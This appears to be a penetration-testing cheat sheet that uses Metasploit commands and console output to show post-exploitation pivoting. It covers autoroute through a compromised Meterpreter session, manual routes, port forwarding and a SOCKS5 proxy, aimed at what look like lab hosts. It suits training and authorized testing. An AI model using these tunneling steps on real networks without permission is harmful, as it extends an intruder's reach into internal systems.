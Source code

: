 # Metasploit Tunneling
## Routing Traffic
### Meterpreter

```
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> use post/multi/manage/autoroute
[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> set session 1
session => 1
[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 172.16.1.23
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.16.1.0/255.255.255.0 from host's routing table.
[*] Post module execution completed
[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> 
```
- Create a route manually
- Deprecated, but still works (for now):
```
run autoroute -s 10.129.207.128/20
```
## Port Forwarding
### Meterpreter
Forward a port
```
portfwd add -l 5432 -p 5432 -r 10.129.207.128
```
## SOCKS Proxy
### Meterpreter
```
use auxiliary/server/socks_proxy
```
```
[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> use auxiliary/server/socks_proxy
[msf](Jobs:0 Agents:1) auxiliary(server/socks_proxy) >> set version 5
version => 5
[msf](Jobs:0 Agents:1) auxiliary(server/socks_proxy) >> set srvport 9050
srvport => 9050
[msf](Jobs:0 Agents:1) auxiliary(server/socks_proxy) >> run
[*] Auxiliary module running as background job 0.
[msf](Jobs:1 Agents:1) auxiliary(server/socks_proxy) >> 
[*] Starting the SOCKS proxy server

[msf](Jobs:1 Agents:1) auxiliary(server/socks_proxy) >> 
```
